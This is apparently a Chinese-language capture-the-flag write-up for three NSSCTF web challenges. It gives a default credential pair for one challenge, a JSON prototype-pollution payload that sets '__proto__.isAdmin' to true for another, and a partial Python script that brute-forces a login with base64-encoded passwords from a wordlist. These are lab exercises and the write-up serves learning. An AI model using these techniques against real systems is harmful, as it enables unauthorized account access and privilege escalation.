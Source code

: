 ### nest_js

弱密码，登录就有`flag`

```
admin:password
```

### 多重宇宙日记

随意注册进入到`/profile`，查看源码得到判断条件

![image-20250525202807316](images/image-20250525202807316.png)



使用`__proto__`来绕过

```json
{
    "settings": {
        "theme": "13123",
        "language": "13",
        "__proto__": {
            "isAdmin": true
        }
    }
}
```

### easy_file

也是弱密码，可以试，也可以爆破，脚本如下👇

```python
import requests
import base64

def encode(input):
    return base64.b64encode(input.encode()).decode()

url = "http://node8.anna.nssctf.cn:20309/login.php"
username = encode("admin")

with (open("top5000.txt", "r") as f):
    for line in f:
        password = line.strip()
        encoded_password = encode(password)
        data = {
            "username": username,
            "password": encoded_password
        }
```